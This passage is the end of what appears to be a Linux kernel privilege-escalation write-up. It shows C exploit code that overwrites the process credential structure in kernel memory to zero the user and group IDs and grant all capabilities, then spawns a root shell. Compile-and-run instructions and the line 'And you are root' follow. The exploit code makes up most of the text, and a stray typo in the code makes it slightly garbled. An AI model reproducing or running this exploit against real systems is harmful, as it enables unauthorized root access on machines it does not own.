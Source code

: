 ```
	msg("hammering cred structure at %llx\n", addr);
#define w64(w) { write64(addr, (w)); addr += 8; }
	unsigned long val = read64(addr) & 0xFFFFFFFFUL;
	w64(val); 
	w64(0); w64(0); w64(0); w64(0);
	w64(0xFFFFFFFFFFFFFFFF); 
	w64(0xFFFFFFFFFFFFFFFF); 
	w64(0xFFFFFFFFFFFFFFFF); 
#undef w64
}

int
main(int argc, char **argv) {
	initialize();
	hammer_cred(find_cred());
	msg("credentials patched, launching shell...\n");
	if(execl("/bin/sh", "/bin/sh", NULL)) {c
		fail("exec %s\n", strerror(errno));
	}
}
            
```



Compile with:

```
gcc exploit.c -o exploit
```

Execute:

```
./exploit
```

And you are root

![image-20211117000924690](assets/image-20211117000924690.png)
